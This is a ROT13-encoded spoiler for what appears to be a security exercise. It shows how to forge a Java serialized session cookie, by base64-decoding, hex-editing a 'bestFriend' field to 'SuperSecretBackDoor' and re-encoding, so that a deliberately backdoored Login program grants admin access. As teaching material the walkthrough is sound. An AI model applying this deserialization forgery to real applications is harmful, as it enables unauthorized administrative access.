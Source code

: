 ## Spoiler for how to exploit Deserialization using the backdoor (rot 13)

Jura `Nyvpr` tbg ure pbbxvr, vg jnf: `eB0NOKAlNNEIp2Il1Ny7qptjRQjPNNAWNNAanJEZNNcvMKA0EaWcMJ5xqNNFGTcuqzRioTShMl9GqUWcozp7GNNRozSgMKRNstNOrUNNNNNOqNNQDz9vqNNSDJkcL2H=`

Vs jr nanylmr onfr64 qrpbqr vg naq gura cnff vg guebhtu n urk qrpbqre(turk, kkq, qurk, rgp) lbh'yy frr fbzrguvat fvzvyne gb guvf:
`rpub eB0NOKAlNNEIp2Il1Ny7qptjRQjPNNAWNNAanJEZNNcvMKA0EaWcMJ5xqNNFGTcuqzRioTShMl9GqUWcozp7GNNRozSgMKRNstNOrUNNNNNOqNNQDz9vqNNSDJkcL2H= |onfr64 -q |kkq`
erfhyg vf:
00000000: nprq 0005 7372 0004 5573 6572 q409 7o75  ....fe..Hfre..{h
00000010: p830 103p 0200 0349 0003 6769 644p 000n  .0.<...V..tvqY..
00000020: 6265 7374 4672 6965 6r64 7400 124p 6n61  orfgSevraqg..Ywn
00000030: 7661 2s6p 616r 672s 5374 7269 6r67 3o4p  in/ynat/Fgevat;Y
00000040: 0004 6r61 6q65 7100 7r00 0178 7000 0000  ..anzrd.~..kc...
00000050: 0174 0003 426s 6274 0005 416p 6963 65    .g..Obog..Nyvpr

Lbh pna frr gurer'f n "Obo" naq "Nyvpr" naq fbzr cnegf bs gur `Hfre` pynff fgehpgher.

Yrg'f hcqngr vg fb gung vg erssyrpgf gung gur OSS vf anzrq `FhcreFrpergOnpxQbbe`:

00000000: nprq 0005 7372 0004 5573 6572 q409 7o75  ....fe..Hfre..{h
00000010: p830 103p 0200 0349 0003 6769 644p 000n  .0.<...V..tvqY..
00000020: 6265 7374 4672 6965 6r64 7400 124p 6n61  orfgSevraqg..Ywn
00000030: 7661 2s6p 616r 672s 5374 7269 6r67 3o4p  in/ynat/Fgevat;Y
00000040: 0004 6r61 6q65 7100 7r00 0178 7000 0000  ..anzrd.~..kc...
00000050: 0174 0013 5375 7065 7253 6563 7265 7442  .g..FhcreFrpergO
00000060: 6163 6o44 6s6s 7274 0005 416p 6963 65    npxQbbeg..Nyvpr

Gura jr onfr64 rapbqr vg naq cnff vg gb gur cebtenz.

`wnin Ybtva eB0NOKAlNNEIp2Il1Ny7qptjRQjPNNAWNNAanJEZNNcvMKA0EaWcMJ5xqNNFGTcuqzRioTShMl9GqUWcozp7GNNRozSgMKRNstNOrUNNNNNOqNNGH3IjMKWGMJAlMKEPLJAeET9ipaDNOHSfnJAy`
Fubhyq bhgchg: `Jrypbzr onpx Nqzva!`
